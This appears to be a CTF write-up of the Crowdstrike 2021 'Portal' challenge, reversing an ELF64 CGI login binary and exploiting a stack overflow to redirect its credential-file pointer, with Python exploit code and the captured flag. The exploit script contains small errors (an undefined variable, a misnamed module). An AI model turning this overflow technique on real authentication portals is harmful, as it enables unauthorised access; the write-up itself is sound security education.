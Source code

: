 ```yaml
---
layout: post
title: Crowdstrike CTF 2021 - Portal
author: hugsy
tags: [Protective Penguin,pwn,re,elf64,]
date: 2021-01-29 19:43
---
```


* Competition: [Crowdstrike CTF](https://adversary.zone/challenges)
* Challenge Name: Portal
* Points: 1 pts
* Description:
> PROTECTIVE PENGUIN gained access to one of their victims through the victim's extranet authentication portals and we were asked to investigate.
> Please download the Portal Code and see whether you can reproduce their means of initial access vector. We stood up a test instance of the authentication portal for you to validate against.

The target for this challenge is located at https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi. By opening the Qemu image we can get retrieve the ELF64 file: `cgi-bin/portal.cgi`. That "portal" is fairly basic, only asking for credentials.
<!--more-->

# Reversing the binary

The binary was quickly identified:



```bash
$ file cgi-bin/portal.cgi
cgi-bin/portal.cgi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aead4fc5b1de633c95bfc8076a8338c9f64c3125, for GNU/Linux 3.2.0, stripped
$ checksec cgi-bin/portal.cgi
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

First, we determined the logic of the binary: it is a ELF64 CGI that is spawned via `python3 -m http.server --cgi`. This has several implications: CGIs are forked and execv-ed so this rules out any kind of stack canary bruteforce (if any canary attack was needed), and also relying on static libc addresses. But the binary base itself will be static.

Moving on to reversing: the `main` function quickly shows that the binary gets the `user` and `pass` from the input formatted in JSON. Also it shows that if the `auth` function is successful (i.e. returns 0), the flag is simply given to us:

![img](https://i.imgur.com/XBOlhQe.png)

Here is the core of the `auth` function
![img](https://i.imgur.com/tjyzEAQ.png)

Its logic is:

1. Read HTTP POST `user` and `pass` as `application/json`
2. Both parameters must be base64 encoded
3. Read expected string from "creds.txt".
4. Do `strcmp("given:credz","fromfile:credz")`
5. If returns 0, it just dumps the flag

After spending some time thinking of using a timing attack for exploitation, we re-read the binary disassembly to spot a stack overflow when the `auth` uses `__b64_pton` on a static stack buffer when extracting the credentials. We fully control the content being extracted. So here we go!

# Exploitation

Trigger the stack overflow is not hard, only providing an input big enough would suffice. For example this code:

```python
s = requests.Session()
u = b64(b"A"*372)
r = s.post("http://localhost:8000/cgi-bin/portal.cgi", json={"user": u, "pass": u})
print(r.text)
s.close()
```

would corrupt the stack, but also overwrite the canary triggering `__stack_chk_fail` and we don't like that much.
But booking closely at the stack layout, we realize something:

```
                     ^
|            |       |
--------------       |
|   pc       |       |
--------------       |
|  sfp       |       |
--------------       |
| canary     |       |
--------------       |
|  fname     |       |
--------------       |
|            |       |  stack direction
|            |       |
| controlled |       |
| buffer     |       |
|            |       |
|            |       |
```

We can control the value being passed to `fopen`! So we can use that argument to point to an address that will be `fopen` for comparison. By default, it obviously points to `creds.txt` (i.e. 0x402008). But if we could point it to a file we know that may contain `:` character, then we have all we need to pass the call to `strcmp`.

And one case struck out
```bash
$ strings cgi-bin/portal.cgi | rg /
/lib64/ld-linux-x86-64.so.2
```

Not quite sure if it was the intended solution, but it worked: we grepped`/lib64/ld-linux-x86-64.so.2` looking for `:` and we get some interesting stuff:

```bash
$ strings /lib64/ld-linux-x86-64.so.2 | rg ':'
[...]
FATAL: kernel too old
Unused direct dependencies:
        Version information:
        %s:
prelink checking: %s
wrong ELF class: ELFCLASS32
undefined symbol: %s%s%s
relocation processing: %s%s
calling init: %s
calling preinit: %s
[...]
```

We are free to pick any: so I picked `b"\tVersion information:"`. All is needed now is build the parameter with an `user` having the base64-encoded value of `b"\tVersion information"`, and `pass` with `\0` is enough.

```python
import os, sys, requests, time
from base64 import b64encode as b64
from pwn import *

TARGET="https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi"

def pwn():
    user_raw = b"\tVersion information"
    user = b64(user_raw)
    pwd_raw = b"\0"*(259-len(u_r))
    pwd = b64(pwd_raw + p64(0x4002a8) + b"A"*8) # 0x4002a8 is the address of /lib64/ld-linux-x86-64.so.2 in portal.cgi

    r = request.post(TARGET, json={"user": user, "pass": pwd})
    if len(r.text):
        print(r.text)
    return

if __name__ == "__main__":
    pwn()
```

And we get the flag printed out after a bunch of junk, showing `CS{w3b_vPn_h4xx}`.



